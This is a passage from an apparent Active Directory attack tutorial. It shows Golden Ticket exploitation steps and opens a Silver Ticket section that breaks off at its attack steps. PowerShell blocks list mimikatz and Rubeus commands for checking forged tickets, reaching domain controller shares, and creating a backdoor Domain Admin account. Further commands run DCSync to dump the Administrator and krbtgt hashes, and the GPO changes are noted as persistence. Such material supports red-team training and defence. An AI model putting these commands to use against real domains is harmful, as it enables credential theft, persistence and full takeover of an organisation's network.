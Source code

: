 ```powershell
```

### **3. Golden Ticket Exploitation**

#### **Domain-Wide Access Exploitation**
```powershell
# Golden Ticket exploitation for domain access
Write-Host "=== GOLDEN TICKET EXPLOITATION ===" -ForegroundColor Green

Write-Host "Exploitation Commands:" -ForegroundColor Yellow

Write-Host "`n1. Verify Golden Ticket:" -ForegroundColor Cyan
Write-Host "   klist" -ForegroundColor White
Write-Host "   mimikatz # kerberos::list" -ForegroundColor White
Write-Host "   Rubeus.exe tgtdeleg" -ForegroundColor White

Write-Host "`n2. Access Domain Resources:" -ForegroundColor Cyan
Write-Host "   # Access domain controller" -ForegroundColor Gray
Write-Host "   dir \\\\DC01.cybercorp.local\C$" -ForegroundColor White
Write-Host "   # Access file shares" -ForegroundColor Gray
Write-Host "   dir \\\\FILE01.cybercorp.local\Shares" -ForegroundColor White
Write-Host "   # Access SQL servers" -ForegroundColor Gray
Write-Host "   sqlcmd -S SQL01.cybercorp.local -E" -ForegroundColor White

Write-Host "`n3. Create New Users:" -ForegroundColor Cyan
Write-Host "   net user /add /domain AttackerUser Password123!" -ForegroundColor White
Write-Host "   net group \"Domain Admins\" AttackerUser /add /domain" -ForegroundColor White

Write-Host "`n4. DCSync Attack:" -ForegroundColor Cyan
Write-Host "   mimikatz # lsadump::dcsync /user:Administrator /domain:cybercorp.local" -ForegroundColor White
Write-Host "   mimikatz # lsadump::dcsync /user:krbtgt /domain:cybercorp.local" -ForegroundColor White

Write-Host "`n5. Group Policy Modification:" -ForegroundColor Cyan
Write-Host "   # Modify GPOs for persistence" -ForegroundColor Gray
Write-Host "   # Add startup scripts" -ForegroundColor Gray
Write-Host "   # Modify security settings" -ForegroundColor Gray
```

---

## 🥈 SILVER TICKET ATTACKS

### **1. Silver Ticket Fundamentals**

#### **What is a Silver Ticket?**
**Silver Ticket** is a forged service ticket that provides access to specific services. It's created using the service account's NTLM hash and can bypass service-level authentication controls.

#### **Silver Ticket Attack Scenario**
```powershell
# Silver Ticket attack scenario
Write-Host "=== SILVER TICKET ATTACK SCENARIO ===" -ForegroundColor Green

Write-Host "Attack Scenario: Service-Specific Access via Silver Ticket" -ForegroundColor Red
Write-Host "`nPrerequisites:" -ForegroundColor Yellow
Write-Host "  1. Service account NTLM hash" -ForegroundColor White
Write-Host "  2. Service SPN" -ForegroundColor White
Write-Host "  3. Domain SID" -ForegroundColor White
Write-Host "  4. Target username for impersonation" -ForegroundColor White

Write-Host "`nAttack Steps:" -ForegroundColor Yellow
```
